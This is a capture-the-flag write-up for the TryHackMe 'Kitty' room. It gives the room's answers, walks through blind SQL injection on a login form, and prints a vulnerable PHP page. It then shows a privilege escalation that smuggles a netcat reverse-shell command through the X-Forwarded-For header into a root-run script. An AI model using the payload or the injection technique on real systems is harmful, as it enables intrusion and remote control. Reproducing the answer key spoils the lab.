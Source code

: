 # Kitty

## Task 1  What is the user and root flag?
+ What is the user flag? `THM{3xex0x9x8x7xcxcxbxax6xbxbx6xbx6x}`
+ What is the root flag? `THM{5x1xfx2xbx3x2x1x7x0x6x3xexfx3xbx}`
## Task 2  Thank you
+ Thank you for playing. `No Answer Needed`

### Enumeration
+ Try to signup with user `kitty` and we got error `This username is already taken.`
+ Register new user 
+ Try SQLinjection on Login 
    - Query Using `' OR 1=1 -- -'` Return Error and logged something weird on logged and validation
    - Query Using `newuser' AND SELECT 'a' = 'a' -- -` Passed 
+ Create a python to brute the Database, Table and Password for `Kitty`

+ After Get Creadential 
```bash
hengkisirait: Kitty $ ssh kitty@10.10.131.226
kitty@kitty:~$ ls
user.txt
kitty@kitty:~$ cat user.txt
THM{3xex0x9x8x7xcxcxbxax6xbxbx6xbx6x}
kitty@kitty:~$
```

### Privelege Escalation
+ Upload linpeas and have an active port `8080`
+ found weird file 
```bash
kitty@kitty:~$ cat /opt/log_checker.sh
#!/bin/sh
while read ip;
do
  /usr/bin/sh -c "echo $ip >> /root/logged";
done < /var/www/development/logged
cat /dev/null > /var/www/development/logged
```

+ Check on `index.php` on development site 
```bash
kitty@kitty:/var/www/development$ cat index.php
<?php
// Initialize the session
session_start();

// Check if the user is already logged in, if yes then redirect him to welcome page
if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
    header("location: welcome.php");
    exit;
}

include('config.php');
$username = $_POST['username'];
$password = $_POST['password'];
// SQLMap
$evilwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
foreach ($evilwords as $evilword) {
	if (preg_match( $evilword, $username )) {
		echo 'SQL Injection detected. This incident will be logged!';
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
		$ip .= "\n";
		file_put_contents("/var/www/development/logged", $ip);
		die();
	} elseif (preg_match( $evilword, $password )) {
		echo 'SQL Injection detected. This incident will be logged!';
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
		$ip .= "\n";
		file_put_contents("/var/www/development/logged", $ip);
		die();
	}
}


$sql = "select * from siteusers where username = '$username' and password = '$password';";
$result = mysqli_query($mysqli, $sql);
$row = mysqli_fetch_array($result, MYSQLI_ASSOC);
$count = mysqli_num_rows($result);
if($count == 1){
	// Password is correct, so start a new session
	session_start();

	// Store data in session variables
	$_SESSION["loggedin"] = true;
	$_SESSION["username"] = $username;
	// Redirect user to welcome page
	header("location: welcome.php");
} elseif ($username == ""){
	$login_err = "";
} else{
	// Password is not valid, display a generic error message
	$login_err = "Invalid username or password";
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Development User Login</h2>
        <p>Please fill in your credentials to login.</p>

<?php
if(!empty($login_err)){
        echo '<div class="alert alert-danger">' . $login_err . '</div>';
}
?>

        <form action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control">
            </div>
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control">
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
	    </div>
	    <p>Don't have an account? <a href="register.php">Sign up now</a>.</p>
        </form>
    </div>
</body>
</html>
```

+ So we need to TUNNELING the local PORT (8080) `ssh -L 8080:127.0.0.1:8080 kitty@10.10.131.226`

```bash
kitty@kitty:/var/www/development$ tail -f logged
$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.37.160 4444 >/tmp/f)
```



+ Generate new python request exploit the `X-Forwaded-For: payload`
```bash
hengkisirait: ~ $ nc -l 4444
id
bash: cannot set terminal process group (4244): Inappropriate ioctl for device
bash: no job control in this shell
root@kitty:~# id
uid=0(root) gid=0(root) groups=0(root)
root@kitty:~# cd /root
cd /root/
root@kitty:~# ls
ls
logged
root.txt
snap
root@kitty:~# cat root.txt
cat root.txt
THM{5x1xfx2xbx3x2x1x7x0x6x3xexfx3xbx}
```